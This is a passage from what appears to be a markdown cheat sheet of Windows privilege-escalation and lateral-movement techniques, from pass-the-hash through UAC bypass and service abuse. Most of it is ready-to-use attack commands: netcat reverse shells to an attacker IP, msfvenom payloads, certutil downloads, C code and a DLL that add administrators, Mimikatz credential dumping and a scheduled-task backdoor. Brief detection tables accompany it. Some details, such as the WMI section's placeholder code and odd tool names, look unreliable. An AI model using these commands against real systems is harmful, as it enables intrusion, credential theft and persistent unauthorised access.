⚠️ Limitation: This works with plaintext passwords, not hashes. For actual PtH, use Invoke-WMIExec or similar.

✅ Using PsExec (with hash)
cmd

    psexec64 \\<hostname> -u <username> -p <hash> -h "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"
Requires PsExec variant that supports PtH (e.g., in Sysinternals, Impacket, or custom fork).

🔁 Alternative Tools & Methods
Tool	Description
Impacket psexec.py / wmiexec.py	Native support for PtH
Evil-WinRM	Can authenticate with hashes, useful for remote shells
Invoke-WMIExec	PowerShell script for remote command execution
CrackMapExec	Swiss army knife for SMB enumeration + PtH
Rubeus	Can pass TGT tickets for lateral movement (Kerberos equivalent)
Smbexec	Wrapper for smbclient to execute using hashes

🧪 Example: Remote Shell via pth-winexe
bash

    pth-winexe -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:<NTLM_hash> //192.168.1.5 cmd
Result: Interactive cmd.exe shell as Administrator on the remote system.

🛡️ Detection & Mitigation
Defense Strategy	Description
🧼 Disable NTLM	Disable or limit NTLM authentication via GPO
🔐 Enforce SMB Signing	Prevents tampering with SMB messages
🔎 Log Event IDs	Monitor logs: 4624, 4648, 4776 for unusual logins
🔍 Monitor Tools	Detect usage of pth-*, psexec, mimikatz, etc.
🔒 Credential Guard	Protects LSASS from being dumped
📊 Use Sysmon	Track process creation + network connections

✅ Summary Cheat Sheet
Purpose	Command
Dump hashes (WCE)	wce64.exe -w
Remote PtH	pth-winexe -U domain/user%hash //ip cmd
Local PtH (PsExec)	psexec64 \\host -u user -p hash -h command
Set SMBHASH	export SMBHASH=LM:NTLM
Remote PtH (Impacket)	psexec.py -hashes :NTLM domain/user@ip


</details>
<details>
<summary>Loopback Services</summary>
 <br> 
=================
Loopback services are applications or services listening on 127.0.0.1 (localhost) only, meaning they cannot be accessed from outside the machine by default. However, if an attacker has local access (e.g., reverse shell, RDP, or low-privileged foothold), these internal services can be proxied or forwarded externally, and then abused — for example, to exploit internal APIs, web interfaces, or escalate privileges.

🔍 Step 1: Identify Loopback Services
Use netstat to check for services bound only to 127.0.0.1 (localhost):

cmd

    netstat -ano | findstr "LISTEN"
🔍 Look for entries like:

nginx

    TCP    127.0.0.1:8000    0.0.0.0:0    LISTENING    1234
Port 8000 is only available on loopback.

PID 1234 may correspond to a high-privilege service like an internal web API.

✅ Identify the service name behind the PID:
cmd

    tasklist /fi "PID eq 1234"
🔁 Step 2: Port Forward the Loopback Service to Attacker
You can remotely expose the local-only service using port forwarding over an SSH tunnel with plink.exe.

✅ Using plink.exe (SSH Reverse Tunnel):
cmd

    plink.exe -l <attacker-username> -pw <attacker-password> <attacker-ip> -R <attacker-port>:127.0.0.1:<target-port>
🔁 Example:
cmd

    plink.exe -l kali -pw P@ssw0rd 192.168.1.100 -R 9000:127.0.0.1:8000
This binds port 9000 on your attacking machine to the victim’s internal port 8000 (localhost). Now you can open http://localhost:9000 on your attacker box to access the internal service.

⚙️ Use Cases
Use Case	Example
🧪 Exploit internal web apps	HTTP admin panels only listening on 127.0.0.1
🔄 Abuse local privileged APIs	Exploit services like Jenkins, Redis, MySQL bound to localhost
📦 Pivot into internal systems	Forward 127.0.0.1:3306 (MySQL) and reuse credentials
🔐 Extract secrets	Vaults, config servers, DB admin panels (e.g., Mongo Express)

🛠️ Alternatives to plink.exe
✅ ssh from Linux (native):
bash

    ssh -R 9000:127.0.0.1:8000 attacker@attacker-ip
✅ chisel (More advanced tunneling over HTTP):
bash

# On attacker:
    chisel server -p 9001 --reverse

# On victim:
    chisel client attacker-ip:9001 R:9000:127.0.0.1:8000
✅ socat (bidirectional proxying):
bash

    socat TCP-LISTEN:9000,fork TCP:127.0.0.1:8000
✅ Invoke-SSHCommand / PSSession (PowerShell Remoting):
For environments with WinRM enabled:

powershell

    Enter-PSSession -ComputerName target -Credential $creds
    New-NetFirewallRule -DisplayName "Allow SSH Tunnel" -Direction Inbound -LocalPort 22 -Protocol TCP -Action Allow
🔐 Detection & Defense
Detection Technique	Description
🔍 Monitor Netstat Output	Look for services bound to 127.0.0.1
🧪 Check for Reverse SSH	Monitor plink.exe, ssh.exe, or chisel.exe processes
📊 Enable Sysmon Logging	Monitor for unusual child process or network connections
🔒 Restrict Loopback Services	Configure services to require authentication even on loopback
🛡️ Egress Filtering	Block outbound SSH, chisel, or tunneling ports
🧰 Use Application Firewalls	Restrict access to internal-only services using local firewalls

🧪 Example Scenario
✅ Find a local service:
pgsql

    127.0.0.1:8888 - PID 4321 - Web API for internal admin panel
✅ Tunnel it to attacker machine:
cmd

    plink.exe -l kali -pw kali 192.168.1.100 -R 8080:127.0.0.1:8888
✅ On Kali (attacker):
bash

    curl http://localhost:8080
💥 You now access a privileged local service remotely, possibly leading to RCE, token theft, or privilege escalation.

✅ Summary Cheat Sheet
Task	Command
List local ports	`netstat -ano
Identify process by PID	tasklist /fi "PID eq <pid>"
Tunnel with plink	plink.exe -R <LPORT>:127.0.0.1:<RPORT>
Tunnel with SSH	ssh -R <LPORT>:127.0.0.1:<RPORT> user@attacker-ip
Tunnel with chisel	chisel client attacker-ip:port R:...


</details>
<details>
<summary>AlwaysInstallElevated</summary>
 <br> 
=====================
 
🔍 Overview
AlwaysInstallElevated is a Windows policy setting that, when enabled, allows non-privileged users to install Microsoft Installer Packages (.msi files) with elevated (SYSTEM) privileges. This feature, originally intended for administrative convenience, becomes a serious security misconfiguration if both user-level and machine-level policies are enabled simultaneously.

⚠️ If both registry keys (HKCU and HKLM) have AlwaysInstallElevated = 1, any user can install MSI files with SYSTEM-level privileges.

🧪 Detection
Before exploitation, you need to check if the target machine is misconfigured:

✅ Check via Registry
powershell

    reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
Both keys must return AlwaysInstallElevated REG_DWORD 0x1 for the system to be vulnerable.
<img width="1061" height="261" alt="image" src="https://github.com/user-attachments/assets/3fad82f8-9c74-4d4d-9290-96e62ce68605" />

✅ Check via Enumeration Tools
Use winPEASany.exe on the target system to automatically enumerate this setting:

powershell

    .\winPEASany.exe all
Look under "Registry - AlwaysInstallElevated" section for any findings.
<img width="1041" height="119" alt="image" src="https://github.com/user-attachments/assets/eb4d5020-8458-41c9-985b-ab6cd9a2f5d1" />

✅ Remote PowerShell Shell Check (Optional)
If you have a reverse shell on the target, verify with:

powershell

    reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    reg query HKLM\Software\Policies\Microsoft\Windows\Installer
Or automate using PowerShell:

powershell

    Get-ItemProperty -Path "HKCU:\Software\Policies\Microsoft\Windows\Installer" | Select-Object AlwaysInstallElevated
    Get-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\Installer" | Select-Object AlwaysInstallElevated
💥 Exploitation
Once confirmed vulnerable, you can exploit the system by creating and executing a malicious .msi payload.

🔧 Step 1: Generate a Malicious MSI File
Option 1: Add User to Administrators Group
bash

    msfvenom -p windows/exec CMD='net localgroup administrators USERNAME /add' -f msi -o adduser.msi
Replace USERNAME with the low-privileged user account you want to escalate.

Option 2: Create a Backdoor User
bash

    msfvenom -p windows/adduser USER=pwned PASS=P@ssw0rd -f msi -o evil.msi
🌐 Step 2: Deliver Payload to Target
Option A: Host on Attacker Machine (Kali)
bash

    python3 -m http.server 8999
Option B: Direct Upload (if you have shell access)
powershell

    upload adduser.msi
Victim-side Download:
powershell

    Invoke-WebRequest -Uri "http://<Attacker-IP>:8999/adduser.msi" -OutFile "adduser.msi"
🚀 Step 3: Execute with SYSTEM Privileges
powershell

    msiexec /quiet /qn /i adduser.msi
/quiet /qn: Ensures the installation is completely silent (no GUI or prompts).

/i: Installs the specified MSI file.

🔎 Post-Exploitation: Verify Success
Confirm that the privilege escalation worked by checking group membership:

powershell
net localgroup administrators
You should now see the new or escalated user added to the Administrators group.
<img width="1062" height="586" alt="image" src="https://github.com/user-attachments/assets/b1865faf-8580-4771-bd50-5ef0742083f8" />

📘 Summary
Step	Description
1. Detect	Query registry or use winPEASany.exe to confirm both HKCU and HKLM values set to 1.
2. Create Payload	Use msfvenom to generate a .msi that adds a user or runs arbitrary commands.
3. Deliver Payload	Host on HTTP server or upload directly.
4. Execute with msiexec	msiexec /quiet /qn /i payload.msi runs it as SYSTEM.
5. Verify	Use net localgroup administrators to confirm elevated privileges.

🔐 Mitigation
Admins should ensure AlwaysInstallElevated is not enabled on both user and machine levels unless explicitly required (which is rare in modern environments).

To disable:

bash
     
     reg delete HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /f
     reg delete HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /f

</details>
<details>
<summary>Stored Credentials</summary>
 <br> 

==================

Windows allows users to store credentials in the system using Credential Manager or via commands like runas /savecred. These credentials are saved in a user-specific vault and may be reused by any user with access to the same session. If the /savecred option was used earlier or credentials were saved via GUI, they can be leveraged to execute commands under higher-privileged contexts without re-entering passwords.

🔍 Step 1: Enumerate Stored Credentials
Use the built-in cmdkey.exe utility to view stored credentials:

cmd

    cmdkey /list
🔎 Sample Output:

    yaml
    Currently stored credentials:

    Target: Domain:interactive=PWNED\Administrator
    Type: Domain Password
    User: PWNED\Administrator
✅ This shows that the user PWNED\Administrator has saved credentials available for use.

🚀 Step 2: Execute Commands Using Saved Credentials
Use runas with the /savecred flag to reuse stored credentials without retyping the password:

cmd

    runas /user:PWNED\Administrator /savecred "C:\Windows\System32\cmd.exe /c C:\Users\Public\nc.exe -nv <attacker-ip> <port> -e cmd.exe"
💡 runas spawns the command as the specified user. If /savecred is used and credentials were saved earlier, the prompt is skipped.

🧠 Note:

/savecred does not store credentials — it reuses previously saved ones.

You must provide full absolute paths for commands.

💥 Real-World Exploitation Example
User Administrator has previously saved credentials.

You run:

cmd

    runas /user:Administrator /savecred "C:\Windows\System32\cmd.exe"
You now have a shell running as Administrator, no password required.

🔁 Alternatives & Enhancements
✅ Use PsExec (if credentials were saved elsewhere or token is available):
cmd

    psexec.exe -u PWNED\Administrator -p <known-password> cmd.exe
Or combine with hashes if using Pass-the-Hash scenarios.

✅ Use PowerShell to Elevate:
powershell

    Start-Process "cmd.exe" -Credential (New-Object System.Management.Automation.PSCredential("PWNED\Administrator",(ConvertTo-SecureString "Dummy" -AsPlainText -Force)))
⚠️ Only works if plaintext password is known. Doesn’t support /savecred.

✅ Use Task Scheduler for Persistent Elevation:
cmd

    schtasks /create /tn "sysbackdoor" /tr "cmd.exe /c C:\Users\Public\nc.exe -nv <attacker-ip> 4444 -e cmd.exe" /sc once /st 00:00 /ru "PWNED\Administrator" /RL HIGHEST /F
Leverages stored creds if previously authenticated with this account.

🛡️ Detection & Defense
Defense	Description
🔍 Monitor cmdkey.exe usage	Unusual calls can indicate enumeration
📊 Detect runas /savecred usage	Enable command-line logging (e.g., Sysmon Event ID 1)
🔒 Limit use of /savecred	Enforce GPO to block its usage
🔐 Clear saved credentials	Use cmdkey /delete:<target> to remove saved entries
👁️ Monitor for runas.exe and scheduled task abuse	High-privilege task execution by low-privileged users is a red flag

🧹 Optional Cleanup
Clear stored credentials after use:

cmd

    cmdkey /delete:Domain:interactive=PWNED\Administrator
This deletes the saved credential and prevents re-use by attackers.

✅ Summary Cheat Sheet
Task	Command
View stored creds	cmdkey /list
Run with saved creds	runas /user:<user> /savecred "<command>"
Clear saved creds	cmdkey /delete:<target>
Elevate via PsExec	psexec -u <user> -p <password> cmd.exe
Schedule task w/ creds	schtasks /create ... /ru <user>

   </details>

   <details>
<summary>Autorun / Startup Applications</summary>
 <br>
  Windows allows programs to be configured to automatically execute at boot or login via various autorun or startup locations. If any of these locations have insecure file or directory permissions, a low-privileged user may be able to replace or modify a program, resulting in privilege escalation.

This technique becomes powerful when:

The autorun entry points to a program in a folder where users have write access

The program runs as SYSTEM or Administrator

The file is replaced by a malicious payload

🔎 Detection Techniques
✅ Autorun Registry & Startup Paths
Registry keys to check:

    HKLM\Software\Microsoft\Windows\CurrentVersion\Run

    HKCU\Software\Microsoft\Windows\CurrentVersion\Run

    HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce

    HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce

✅ Startup Folder (per-user and global)
Global (all users):

      C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup

Per-user:

     C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

Use icacls to check permissions:

powershell

    icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
Check if "Users" or "Everyone" has (F) or (M) permissions (Full/Modify = vulnerable).
<img width="734" height="304" alt="image" src="https://github.com/user-attachments/assets/bdd1860f-5427-4c79-9a6c-9a06b7d3ea64" />

🔍 Using WinPEAS and Sysinternals Tools
WinPEAS shows:

Insecure file permissions
Autorun entries
Potential DLL hijacking targets
Autoruns64.exe (Sysinternals):
<img width="667" height="226" alt="image" src="https://github.com/user-attachments/assets/0cebe5ff-f10b-4d82-8458-c2ac27de5b42" />

Go to the Logon tab

Identify suspicious entries (e.g., My Program)

Right-click → Check file location and permissions

accesschk64.exe:

cmd

    accesschk64.exe -wvu "C:\Program Files\Autorun Program\program.exe"
Look for:
<img width="400" height="134" alt="image" src="https://github.com/user-attachments/assets/9509b23b-1e66-4efa-a446-21b0086b4c58" />

Everyone: FILE_ALL_ACCESS
💣 Exploitation Techniques
✅ Basic Reverse Shell Payload Creation
Generate a payload using msfvenom:

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.42.239 LPORT=4444 -f exe -o reverse.exe
Alternate (PowerShell):

    msfvenom -p windows/powershell_reverse_tcp LHOST=10.6.42.239 LPORT=4444 -f psh > shell.ps1
Start a Python server:

    python3 -m http.server 8999
Download payload on victim:

powershell

    certutil -urlcache -split -f http://10.6.42.239:8999/reverse.exe reverse.exe
Or:

powershell

    Invoke-WebRequest "http://10.6.42.239:8999/reverse.exe" -OutFile "reverse.exe"
✅ Replace Insecure Program
powershell

    Copy-Item "C:\Temp\reverse.exe" "C:\Program Files\Autorun Program\program.exe" -Force
✅ Place in Startup Folder (If Writeable):
powershell

    Copy-Item -Path "C:\Temp\reverse.exe" -Destination "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\startshell.exe"
✅ Persistence via Registry (Optional)
powershell

    New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "ShellAccess" -Value "C:\Users\<user>\Documents\reverse.exe" -PropertyType String
🧪 Simulate a Session
Log off and back in

Reboot the system

OR trigger any action that invokes the autorun/startup program

Your reverse shell listener should catch a shell as SYSTEM or Administrator.
<img width="581" height="229" alt="image" src="https://github.com/user-attachments/assets/f7eb185f-2167-446a-a243-34d745c02c44" />

🔁 Alternative Exploitation Methods
📌 DLL Hijacking
If an autorun app loads DLLs from the same folder and the folder is writable, you can plant a malicious DLL named as expected.

Tools like Process Monitor or Procmon can help identify DLL load attempts.

📌 Replace Scheduled Task Executable
Scheduled tasks that point to insecure executables or paths can be exploited similarly. Check:

powershell

    schtasks /query /fo LIST /v
Then:

powershell

    accesschk64.exe -wvu "C:\Path\To\Executable.exe"
📌 PowerShell-Based Payload in Startup Folder
Instead of EXE, drop a .ps1 file and create a .bat or .vbs launcher.

Startup Folder Method:

    @echo off
    powershell -exec bypass -File "C:\ProgramData\Startup\shell.ps1"
🧠 Summary
Step	Tool/Command
Detect startup items	Autoruns64.exe, WinPEAS, Registry, Startup folder
Check permissions	accesschk64.exe, icacls
Generate payload	msfvenom, revshells.com
Transfer payload	certutil, Invoke-WebRequest, Python HTTP server
Replace vulnerable EXE	Copy-Item, copy
Trigger execution	Login/reboot or startup folder launch  
 </details>
 
  <details>
<summary>Executable Files</summary>
 <br>
   This privilege escalation technique involves modifying an executable file used by a Windows Service when:

The file is owned or writable by low-privileged users.

The service runs with elevated privileges (e.g., SYSTEM or Administrator).

The service loads the executable directly from disk without verification.

If a user can overwrite or replace the service binary, they can inject a malicious executable that runs with SYSTEM privileges when the service is restarted.

🔍 Detection
✅ Using Accesschk (SysInternals)
Transfer accesschk64.exe to the target Windows machine:

    certutil -urlcache -split -f http://<attacker-ip>:<port>/accesschk64.exe accesschk64.exe

<img width="769" height="230" alt="image" src="https://github.com/user-attachments/assets/d83105b5-e09f-4ac7-9260-d717959584ed" />
Check for weak permissions on service binaries:

    accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
Look for output like:
<img width="748" height="256" alt="image" src="https://github.com/user-attachments/assets/c861dc30-0d3b-4611-88a4-e532ccc08e21" />

Everyone FILE_ALL_ACCESS
That indicates any user can overwrite the service binary — a major misconfiguration.

✅ Using winPEAS
Run winPEAS.exe on the target system. Look under the section:

"Interesting file & directory permissions"

You’ll see world-writable executables linked to services — these are prime targets.

✅ Manual Check (Optional)
Check permissions via GUI:

Right-click the .exe file

Go to Properties → Security → Advanced

See if Users, Everyone, or a non-admin user has Write or Full Control

⚔️ Exploitation
Once you've identified a service binary you can overwrite, follow these steps:

💣 Step 1: Write a Malicious Executable
On Kali Linux:

Edit a malicious C payload that performs privilege escalation (e.g., add user to admins):

c

#include <stdlib.h>
int main() {
  system("cmd.exe /c net localgroup administrators attacker /add");
  return 0;
}
Compile it:

    x86_64-w64-mingw32-gcc windows_service.c -o evil.exe
💾 Step 2: Replace the Target Binary
Upload evil.exe to the target machine:

# On victim (PowerShell or CMD)
copy C:\Temp\evil.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
(Use /Y to overwrite without prompt)

🚀 Step 3: Start the Service

    sc start filepermsvc
The service will launch your malicious payload with elevated privileges.

✅ Step 4: Verify Exploitation
Check that the new user is added:

    net localgroup administrators
🧰 Alternative Methods
🛠 Replace with Reverse Shell
Instead of adding a user, you can embed a reverse shell payload using msfvenom:

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<your-ip> LPORT=4444 -f exe -o revshell.exe
Then overwrite the service binary with revshell.exe and restart the service.

Start listener on Kali:

    nc -lvnp 4444
🧪 Persistence (Optional)
After escalating, create a new user and add to administrators for long-term access:

powershell

    net user pwned P@ssw0rd! /add
    net localgroup administrators pwned /add
🧱 Hardening Recommendations
If you're auditing a system:

Ensure only SYSTEM or Administrator has write access to service executables.

Use tools like AccessEnum or icacls to review ACLs.

Avoid running services from user-writable locations like C:\Temp\ or Downloads.

📌 Summary
Step	Action
1.	Identify vulnerable service binary with world-writable permissions
2.	Overwrite it with a malicious executable
3.	Restart the service
4.	Get SYSTEM shell or escalate privilege
 </details>
<details>
<summary>DLL Hijacking</summary>
 <br>
Exploits applications that load DLLs from directories writable by non-admin users. By placing a malicious DLL with the same name as one the app loads, you can achieve code execution as the application account (often SYSTEM).

✅ Detection & Enumeration
Use Procmon → Filter for “NAME NOT FOUND” on DLL loads.

winPEAS → Check writable directories in program folders.

Search for executable paths in registry or autoruns located in writable directories.

🛠 Exploitation
Identify target executable (foo.exe) in C:\Program Files\VulnerableApp\foo.exe.

Check if that folder is writable:

powershell

    icacls "C:\Program Files\VulnerableApp"
Craft a malicious DLL (e.g., example.dll) exporting expected functions with payload.

    c

    BOOL APIENTRY DllMain(...) {
    system("cmd.exe /c net localgroup administrators attacker /add");
    return TRUE;
    }
Compile with MinGW or MSVC; drop into target folder.

Restart the application or service to trigger DLL loading.

🧰 Tools & Alternatives
Process Monitor (to trace DLL loading).

PEVerify or DLL export readers (e.g. pexports).

Testing environments: Place DLL as foo.dll or loadlib.dll.
</details>
 <details>
<summary>Token Impersonation (SeImpersonatePrivilege)</summary>
 <br>
  Users with the SeImpersonatePrivilege can impersonate generic tokens (e.g., service or scheduled tasks) and spawn a new process under SYSTEM or other privileged contexts.

✅ Detection
Run whoami /priv → check for SeImpersonatePrivilege (Enabled).

Check group membership or local policy assignment via secpol.msc or AccessChk.

🛠 Exploitation (JuicyPotato / PrintSpoofer etc.)
Prepare the tool (compiled binary) for your architecture.

On target VM:

powershell

    certutil -urlcache -f http://<attacker-ip>:8999/JuicyPotato.exe Juice.exe
Run:

powershell

    .\Juice.exe -l 8080 -p \pipe\netlogon -t * -a calc.exe
This spawns calc.exe (as SYSTEM). Replace with payload.

🧰 Tools
JuicyPotato / Rubeus / PrintSpoofer / RoguePotato

AccessChk → to verify token rights.
 </details>

 <details>
<summary> UAC Bypass Techniques</summary>
 <br>
  Certain executables in Windows auto-elevate (e.g. fodhelper.exe, eventvwr.exe). Abuse via registry modifications or DLL hijacking to bypass User Account Control.

✅ Detection
Enumerate auto-elevated executables using UACMe’s list.

Check for registry keys in HKCU\Software\Classes\mscfile\shell\open\command.

🛠 Steps (Using fodhelper.exe)
Create .reg file on victim:

    reg
    Windows Registry Editor Version 5.00

    [HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command]
    "DelegateExecute"=""
    "Default"="cmd.exe /c net localgroup administrators attacker /add"
Run .reg file → merge.

Launch:

powershell

    Start-Process fodhelper.exe
Attack commands run elevated without prompt.

🧰 Alternatives
Techniques like eventvwr.exe, slui.exe, sdclt.exe, computerdefaults.exe.

Tools: UACMe, BypassUACST.

 </details>
  <details>
<summary> LSA Secrets & Credential Manager Extraction</summary>
 <br>
  Windows stores credentials in the LSA (LSA Secrets), Credential Manager, and DPAPI—exposing saved credentials or domain passwords.

✅ Detection
Access to system files: SAM, SECURITY, SYSTEM.

User privileges: SeDebugPrivilege.

🛠 Exploitation Steps
Copy mimikatz.exe to target.

Run elevated or under system token:

powershell

    mimikatz # privilege::debug
    sekurlsa::logonpasswords
Alternatively, credman::list to enumerate Credential Manager.

🧰 Tools
Mimikatz, LaZagne, CredDump, SecretsDump (Impacket).
 </details>
 <details>
<summary>Writable PATH Directory Exploit</summary>
 <br>
  If any system PATH folder is writable by a non-admin user, executing a program without specifying full path may call a malicious binary in that folder first.

✅ Detection
powershell

    echo $Env:PATH
    icacls C:\Some\Writable\Path
🛠 Exploitation
Identify a writable PATH location, e.g. C:\Users\Public\Scripts.

Drop cmd.exe or your attacker binary as net.exe into that folder.

Run net or sc commands without full path. Windows loads your malicious binary.
 </details>

 <details>
<summary>WMI Event Subscription (Filter/Consumer Hijack)</summary>
 <br>
  WMI event subscriptions (filters + consumers) can be hijacked if permissions allow — leading to persistent SYSTEM code execution.

✅ Detection
Query WMI:

powershell

    Get-WmiObject -Namespace root\subscription -Class __EventFilter
    Get-WmiObject -Namespace root\subscription -Class CommandLineEventConsumer
Use wmisecexpire or WMISub tool to list subscriptions.

🛠 Exploitation
Create a malicious __EventConsumer and link via __FilterToConsumerBinding.

Example:

powershell

    $consumer = New-Object -ComObject WbemScripting.SWbemObject
    # Set properties to run payload
    # Bind to Filter
Trigger event → payload runs as SYSTEM.

🧰 Tools
wmiexec, WMISubHijack, WMIQuery.
 </details>

 <details>
<summary>Service Failure Command Execution</summary>
 <br>
  Windows Service manager can execute a command upon failure using the FailureActions ACL. Weak permissions on a service config enable setting a SYSTEM-level failure handler.

✅ Detection
powershell

    sc qfailure MyService
🛠 Exploitation
Modify failure action using:

bash

    sc failure MyService actions= restart/60000 ""/60000 cmd.exe /c "net localgroup administrators attacker /add"
    sc failureflag MyService 1
    sc stop MyService
# let it fail twice to trigger
 </details>
